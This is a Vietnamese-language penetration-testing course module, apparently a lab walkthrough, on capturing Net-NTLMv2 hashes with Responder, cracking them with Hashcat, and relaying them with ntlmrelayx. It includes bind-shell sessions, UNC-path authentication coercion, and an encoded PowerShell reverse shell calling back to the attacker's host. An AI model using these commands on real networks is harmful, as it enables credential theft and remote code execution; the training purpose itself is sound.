*Chúng ta dùng “Net-NTLMv2” để chỉ NTLMv2 theo đúng tên kỹ thuật. Vì “Net-NTLMv2” được sử dụng phổ biến hơn trong ngành, chúng ta dùng thuật ngữ này trong khóa học để tránh nhầm lẫn.*

Hãy đi qua một ví dụ để làm quen với các kiến thức cơ bản của quá trình xác thực. Trong ví dụ này, mục tiêu của chúng ta là giành quyền truy cập vào một SMB share trên một Windows 2022 server từ một Windows 11 client thông qua Net-NTLMv2.

Ở mức tổng quan, chúng ta sẽ gửi server một request, nêu rõ các chi tiết kết nối để truy cập SMB share. Sau đó server sẽ gửi lại cho chúng ta một challenge, trong đó chúng ta mã hóa dữ liệu cho phản hồi của mình bằng NTLM hash của chúng ta để chứng minh danh tính. Sau đó server sẽ kiểm tra challenge response của chúng ta và cấp hoặc từ chối quyền truy cập, tương ứng.

Tuy nhiên, mục tiêu cụ thể của chúng ta là dùng Net-NTLMv2 cho bài tập này vì nó kém an toàn hơn giao thức Kerberos hiện đại hơn. Điều này phổ biến ngoài thực tế vì phần lớn môi trường Windows vẫn dựa vào giao thức cũ, đặc biệt như một cách để hỗ trợ các thiết bị cũ có thể không hỗ trợ Kerberos.

Vì chúng ta sẽ gặp Net-NTLMv2 trong gần như mọi mạng và môi trường Windows, điều tối quan trọng là phải hiểu cách chúng ta có thể lạm dụng các điểm yếu của nó. Để làm điều đó, chúng ta cần khiến mục tiêu bắt đầu một quá trình xác thực bằng Net-NTLMv2 tới một hệ thống do chúng ta kiểm soát. Chúng ta cần chuẩn bị hệ thống của mình để nó xử lý quá trình xác thực và hiển thị Net-NTLMv2 hash mà mục tiêu dùng để xác thực.

Công cụ Responder rất phù hợp cho việc này. Nó bao gồm một SMB server tích hợp sẵn để xử lý quá trình xác thực cho chúng ta và in ra tất cả các Net-NTLMv2 hash đã bị capture. Mặc dù nó cũng bao gồm các protocol server khác (bao gồm HTTP và FTP) cũng như các khả năng poisoning Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Service (NBT-NS), và Multicast DNS (MDNS), chúng ta sẽ tập trung vào việc capture Net-NTLMv2 hash bằng SMB server trong phần này.

Nếu chúng ta đã có code execution trên một hệ thống từ xa, chúng ta có thể dễ dàng ép nó xác thực tới chúng ta bằng cách ra lệnh cho nó kết nối tới SMB server mà chúng ta đã chuẩn bị. Ví dụ, chúng ta có thể đơn giản chạy `ls \192.168.119.2\share` trong PowerShell (giả sử Responder của chúng ta đang listen trên IP đó). Nếu chúng ta không có code execution, chúng ta cũng có thể dùng các vector khác để ép tạo xác thực. Ví dụ, khi chúng ta phát hiện một file upload form trong một web application trên một Windows server, chúng ta có thể thử nhập một file không tồn tại với UNC path như `\192.168.119.2\share\nonexistent.txt`. Nếu web application hỗ trợ upload qua SMB, Windows server sẽ xác thực tới SMB server của chúng ta.

Hãy capture và crack một Net-NTLMv2 hash. Chúng ta sẽ thiết lập Responder trên máy Kali làm một SMB server và dùng FILES01 (tại 192.168.50.211) làm mục tiêu. Giả sử chúng ta đã dùng một vector tấn công để thực thi một bind shell trên hệ thống mục tiêu. Chúng ta sẽ kết nối tới port 4444 bằng Netcat nơi bind shell của chúng ta đang chạy. Sau khi kết nối thành công, chúng ta sẽ dùng whoami để kiểm tra user nào đang chạy bind shell. Sau đó, chúng ta dùng lệnh net user để kiểm tra xem user đó có phải là thành viên của local Administrators group hay không.

```
kali@kali:~$ nc 192.168.50.211 4444
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
whoami
files01\paul

C:\Windows\system32> net user paul
net user paul
User name                    paul
Full Name                    paul power
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/3/2022 10:05:27 AM
Password expires             Never
Password changeable          6/3/2022 10:05:27 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   6/3/2022 10:29:19 AM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users *Users                
Global Group memberships     *None                 
The command completed successfully.
```

                                    *Listing 47 - Kết nối tới bind shell trên port 4444*

Output cho thấy bind shell chạy dưới user paul, và user này không phải local administrator trên hệ thống FILES01. Một điểm đáng chú ý là user paul là thành viên của nhóm Remote Desktop Users, cho phép user kết nối tới hệ thống bằng RDP.

Vì mục đích của bài demo này, hãy giả định rằng user gunther (mà chúng ta dùng ở phần trước) không tồn tại hoặc chúng ta không có quyền truy cập account đó. Trong trường hợp này, chúng ta chỉ có quyền truy cập vào paul trên hệ thống này.

Vì chúng ta không có quyền để chạy Mimikatz, chúng ta không thể trích xuất mật khẩu từ hệ thống. Nhưng chúng ta có thể thiết lập một SMB server với Responder trên máy Kali, sau đó kết nối tới nó bằng user paul và crack Net-NTLMv2 hash, vốn được dùng trong quá trình xác thực.

Hãy làm ngay bây giờ. Trước tiên, chúng ta cần chạy ip a để lấy danh sách tất cả interface. Sau đó, chúng ta chạy responder (đã được cài sẵn trên Kali) với sudo để có quyền cần thiết nhằm xử lý các thao tác raw socket đặc quyền cho nhiều protocol. Chúng ta sẽ đặt interface lắng nghe bằng -I, lưu ý rằng tên interface của bạn có thể khác so với ví dụ ở đây.

```
kali@kali:~$ ip a
...
3: tap0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 42:11:48:1b:55:18 brd ff:ff:ff:ff:ff:ff
    inet 192.168.119.2/24 scope global tap0
       valid_lft forever preferred_lft forever
    inet6 fe80::4011:48ff:fe1b:5518/64 scope link 
       valid_lft forever preferred_lft forever

kali@kali:~$ sudo responder -I tap0 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
...
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
...
[+] Listening for events... 
```

                                *Listing 48 - Khởi động Responder trên interface tap0*

Output cho thấy Responder hiện đang lắng nghe các event và SMB server đang hoạt động.

Bước tiếp theo của chúng ta là yêu cầu truy cập một SMB share không tồn tại trên Responder SMB server bằng bind shell của paul. Chúng ta sẽ làm điều này bằng một dir listing đơn giản tới \192.168.119.2\test, trong đó “test” là một tên thư mục tùy ý. Chúng ta chỉ quan tâm tới quá trình xác thực, không phải listing của share.

Hãy quay lại tab terminal chứa kết nối Netcat bind shell và nhập lệnh.

```
C:\Windows\system32>dir \\192.168.119.2\test
dir \\192.168.119.2\test
Access is denied.
```

                               *Listing 49 - Dùng lệnh dir để tạo kết nối SMB tới máy Kali*

Tab Responder sẽ hiển thị như sau:

```
...
[+] Listening for events... 
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.50.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:010100000000000000B050CD1777D801B7585DF5719ACFBA0000000002000800360057004D00520001001E00570049004E002D00340044004E004800550058004300340054004900430004003400570049004E002D00340044004E00480055005800430034005400490043002E00360057004D0052002E004C004F00430041004C0003001400360057004D0052002E004C004F00430041004C0005001400360057004D0052002E004C004F00430041004C000700080000B050CD1777D801060004000200000008003000300000000000000000000000002000008BA7AF42BFD51D70090007951B57CB2F5546F7B599BC577CCD13187CFC5EF4790A001000000000000000000000000000000000000900240063006900660073002F003100390032002E003100360038002E003100310038002E0032000000000000000000 
```

                                *Listing 50 - Responder capture Net-NTLMv2 hash của paul*

Điều này cho thấy Responder đã capture thành công Net-NTLMv2 hash của paul. Chúng ta sẽ lưu nó vào paul.hash để có thể crack bằng Hashcat. Trước khi bắt đầu crack, hãy lấy mode đúng.

```
kali@kali:~$ cat paul.hash   
paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:010100000000000000B050CD1777D801B7585DF5719ACFBA0000000002000800360057004D00520001001E00570049004E002D00340044004E00480055005800430034005400490043000400340057...

kali@kali:~$ hashcat --help | grep -i "ntlm"
   5500 | NetNTLMv1 / NetNTLMv1+ESS                           | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                      | Network Protocol
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
   1000 | NTLM                                                | Operating System
```

                                  *Listing 51 - Nội dung paul.hash và Hashcat mode*

File này chứa Net-NTLMv2 hash đã capture của paul (được cắt bớt trong Listing này) và theo Hashcat, mode là 5600 (“NetNTLMv2”).

Bây giờ hãy thử crack hash bằng wordlist rockyou.txt.

```
kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.5) starting
...

PAUL::FILES01:1f9d4c51f6e74653:795f138ec69c274d0fd53bb32908a72b:010100000000000000b050cd1777d801b7585df5719acfba0000000002000800360057004d00520001001e00570049004e002d00340044004e004800550058004300340054004900430004003400570049004e002d00340044004e00480055005800430034005400490043002e00360057004d0052002e004c004f00430041004c0003001400360057004d0052002e004c004f00430041004c0005001400360057004d0052002e004c004f00430041004c000700080000b050cd1777d801060004000200000008003000300000000000000000000000002000008ba7af42bfd51d70090007951b57cb2f5546f7b599bc577ccd13187cfc5ef4790a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e003100310038002e0032000000000000000000:123Password123
...
```

                                  *Listing 51 - Cracking Net-NTLMv2 hash của paul*

Listing cho thấy chúng ta đã crack thành công Net-NTLMv2 hash của paul. Hãy xác nhận mật khẩu hợp lệ bằng cách kết nối tới FILES01 bằng RDP.


                                                  *Figure 11: RDP Connection as paul*

Figure 11 cho thấy chúng ta đã kết nối thành công tới FILES01 bằng RDP dưới user paul.

Trong phần này, chúng ta đã tạo các authentication request từ Windows và thu thập rồi crack Net-NTLMv2 hash. Trong phần tiếp theo, chúng ta sẽ tận dụng hash theo một cách khác.

---

## 3.4. Relaying Net-NTLMv2

---

Trong phần này, chúng ta sẽ có quyền truy cập vào FILES01 với tư cách là một user không có đặc quyền (files02admin), nghĩa là chúng ta không thể chạy Mimikatz để trích xuất mật khẩu. Dựa theo các bước ở phần trước, hãy tưởng tượng rằng chúng ta đã thu được Net-NTLMv2 hash, nhưng không thể crack nó vì nó quá phức tạp.

Điều chúng ta có thể giả định dựa trên username là user này có thể là local administrator trên FILES02. Do đó, chúng ta có thể thử dùng hash trên một máy khác trong kỹ thuật được gọi là relay attack.

Trong cuộc tấn công này, chúng ta sẽ dùng lệnh dir trong bind shell để tạo một kết nối SMB tới máy Kali của chúng ta. Thay vì chỉ in ra Net-NTLMv2 hash được dùng trong bước xác thực, chúng ta sẽ forward nó sang FILES02. Nếu files02admin là một local user của FILES02, quá trình xác thực là hợp lệ và do đó được máy chấp nhận. Nếu xác thực được relay đến từ một user có quyền local administrator, chúng ta có thể dùng nó để xác thực rồi thực thi lệnh qua SMB bằng các phương thức tương tự như các phương thức đã được psexec hoặc wmiexec sử dụng.

Trong ví dụ này, chúng ta không dùng local Administrator user cho relay attack như chúng ta đã làm với pass-the-hash attack. Do đó, hệ thống mục tiêu cần phải tắt UAC remote restrictions, nếu không việc thực thi lệnh sẽ thất bại. Nếu UAC remote restrictions được bật trên mục tiêu thì chúng ta chỉ có thể dùng local Administrator user cho relay attack.

Chúng ta sẽ thực hiện cuộc tấn công này với ntlmrelayx, một tool khác từ thư viện impacket. Tool này thực hiện phần việc nặng cho chúng ta bằng cách thiết lập một SMB server và relay phần xác thực của một kết nối SMB đến tới một mục tiêu do chúng ta chọn.

Hãy đi thẳng vào cuộc tấn công bằng cách khởi chạy ntlmrelayx, mà chúng ta có thể dùng thông qua package impacket-ntlmrelayx đã được cài sẵn. Chúng ta sẽ dùng --no-http-server để tắt HTTP server vì chúng ta đang relay một kết nối SMB và dùng -smb2support để thêm hỗ trợ cho SMB2. Chúng ta cũng sẽ dùng -t để đặt mục tiêu là FILES02. Cuối cùng, chúng ta sẽ đặt command bằng -c, command này sẽ được thực thi trên hệ thống mục tiêu dưới quyền user được relay. Chúng ta sẽ dùng một PowerShell reverse shell one-liner, mà chúng ta sẽ base64-encode và thực thi với tham số -enc như chúng ta đã làm trước đó trong khóa học. Chúng ta cần lưu ý rằng PowerShell reverse shell one-liner được base64-encode đã bị rút gọn trong listing dưới đây, nhưng nó dùng IP của máy Kali và port 8080 để reverse shell kết nối về.

```
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..." 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

                     *Listing 52 - Khởi động ntlmrelayx cho một relay attack nhắm vào FILES02*

Tiếp theo, chúng ta sẽ khởi chạy một Netcat listener trên port 8080 (trong một terminal tab mới) để bắt reverse shell đi vào.

```
kali@kali:~$ nc -nvlp 8080 
listening on [any] 8080 ...
```

                                      *Listing 53 - Khởi động Netcat listener trên port 8080*

Giờ chúng ta sẽ chạy Netcat trong một terminal khác để kết nối tới bind shell trên FILES01 (port 5555). Sau khi kết nối, chúng ta nhập dir \192.168.119.2\test để tạo kết nối SMB tới máy Kali của chúng ta. Một lần nữa, tên thư mục từ xa là tùy ý.

```
kali@kali:~$  nc 192.168.50.211 5555                                       
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
files01\files02admin

C:\Windows\system32>dir \\192.168.119.2\test
...
```

                 *Listing 54 - Dùng lệnh dir để tạo một kết nối SMB tới máy Kali của chúng ta*

Chúng ta sẽ nhận được một kết nối vào trong tab ntlmrelayx.

```
[*] SMBD-Thread-4: Received connection from 192.168.50.211, attacking target smb://192.168.50.212
[*] Authenticating against smb://192.168.50.212 as FILES01/FILES02ADMIN SUCCEED
[*] SMBD-Thread-6: Connection from 192.168.50.211 controlled, but there are no more targets left!
...
[*] Executed specified command on host: 192.168.50.212
```

                             *Listing 55 - Relay attack để thực thi reverse shell trên FILES02*

Output cho thấy ntlmrelayx đã nhận một kết nối SMB và dùng nó để xác thực tới mục tiêu của chúng ta bằng cách relay nó. Sau khi xác thực thành công, command của chúng ta đã được thực thi trên mục tiêu.

Netcat listener của chúng ta sẽ bắt được reverse shell.

```
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.212] 49674
whoami
nt authority\system

PS C:\Windows\system32> hostname
FILES02

PS C:\Windows\system32> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::7992:61cd:9a49:9046%4
   IPv4 Address. . . . . . . . . . . : 192.168.50.212
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254
```

                                                    *Listing 56 - Reverse shell đi vào*

Listing 56 cho thấy chúng ta có thể tận dụng relay attack để giành code execution trên FILES02.

Trong phần này, chúng ta đã minh họa rằng chúng ta có thể tận dụng khả năng khởi tạo một kết nối SMB để hoặc crack hoặc relay Net-NTLMv2 hash. Tuy nhiên, UAC remote restrictions giới hạn các user mà chúng ta có thể dùng trong các cuộc tấn công pass-the-hash hoặc relay bên ngoài một môi trường Active Directory.

---

# 4. Tổng kết

---

Với vai trò là penetration tester, chúng ta phải làm quen và thành thạo nhiều dạng tấn công mật khẩu khác nhau. Chúng ta có thể tận dụng các kỹ thuật này trong các bài đánh giá external để phá vỡ perimeter thông qua các network service bị lộ ra ngoài. Đồng thời, chúng ta cũng có thể áp dụng chúng trong các bài internal penetration test để thu được mật khẩu dạng plaintext hoặc sử dụng hash để truy cập sang các hệ thống khác. Đây là những kỹ năng rất quan trọng cho các Module về Active Directory mà chúng ta sẽ học ở các phần sau của khóa học.

Trong Module này, đầu tiên chúng ta đã tấn công các network service bằng các dictionary attack cơ bản. Sau đó, chúng ta thảo luận về quy trình cracking và các rule-based attack. Chúng ta đã áp dụng các kỹ thuật này để crack cơ sở dữ liệu của password manager KeePass và passphrase của SSH private key. Ở Learning Unit cuối cùng, chúng ta làm việc với NTLM và Net-NTLMv2 hash, crack chúng và sử dụng chúng để truy cập sang hệ thống khác bằng pass-the-hash hoặc relay Net-NTLMv2.

Kết luận lại, chúng ta cần ghi nhớ mức độ phổ biến của các password attack dưới góc nhìn offensive. Trong phần lớn các penetration test ngoài thực tế, chúng ta sẽ không phá vỡ perimeter bằng các technical exploit phức tạp mà chủ yếu thông qua client-side attack hoặc password attack. Đồng thời, chúng ta cũng cần nhận thức rằng các kỹ năng trong Module này không chỉ hữu ích ở khía cạnh tấn công, mà còn giúp chúng ta hiểu rõ hơn cách xây dựng một hệ thống phòng thủ hiệu quả và toàn diện.

---

# 5. Luyện tập

---

## TryHackMe

---

[Offensive Security Tooling](https://tryhackme.com/module/offensive-security-tooling)

[Password Attacks](https://tryhackme.com/room/passwordattacks)

[Hashing Basics](https://tryhackme.com/room/hashingbasics)

[John the Ripper: The Basics](https://tryhackme.com/room/johntheripperbasics)